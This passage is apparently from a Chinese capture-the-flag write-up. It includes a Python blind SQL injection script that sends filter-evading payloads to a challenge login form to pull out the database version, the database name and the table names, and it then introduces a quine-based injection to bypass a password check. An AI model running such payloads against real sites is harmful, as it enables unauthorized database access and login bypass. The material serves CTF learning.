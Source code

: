 这几个都能用来查询表名，此处我们可以使用下面两个，我们我们写脚本去查询表名：

```python
import requests

url = "http://node5.anna.nssctf.cn:28973"
flag = ""
s = "0123456789abcdefghijklmnopqrstuvwxyz-{}_.,"

for i in range(60):
    for j in s:
        # payload = "1'/**/or/**/if((mid((select/**/version()),{},1)/**/like/**/'{}'),1,0)#".format(i, j) # 10_2_32-mariadb
        # payload = "1'/**/or/**/if((mid((select/**/database()),{},1)/**/like/**/'{}'),1,0)#".format(i, j) # ciscn
        # payload = "1'/**/or/**/if((mid((select/**/group_concat(table_name)/**/from/**/sys.schema_table_statistics),{},1)/**/like/**/'{}'),1,0)#".format(i, j)
        payload = "1'/**/or/**/if((mid((select/**/group_concat(table_name)/**/from/**/sys.schema_table_statistics/**/where/**/table_schema/**/like/**/'ciscn'),{},1)/**/like/**/'{}'),1,0)#".format(i, j)
        data = {
            'username': 'admin',
            'password': payload
        }
        req = requests.post(url=url, data=data)
        # print(payload)
        # print(req.text)
        if 'hacker' in req.text:
            print(payload)
        if 'something' in req.text:
            print("someting")
        if 'wrong password' in req.text:
            flag += j
            print(flag)
            break
```

发现啥都查不出来。。



实际上此处为一张空表，我们需要使用另一种做法(**quine**)

重点的代码是这里：

```php
if ($row['password'] === $password) {
        die($FLAG);
    } 
```

我们除了让输入的密码与真正的密码一致外，还可以让**输入的结果与输出的结果相同**，同样可以实现获得flag



举个例子：
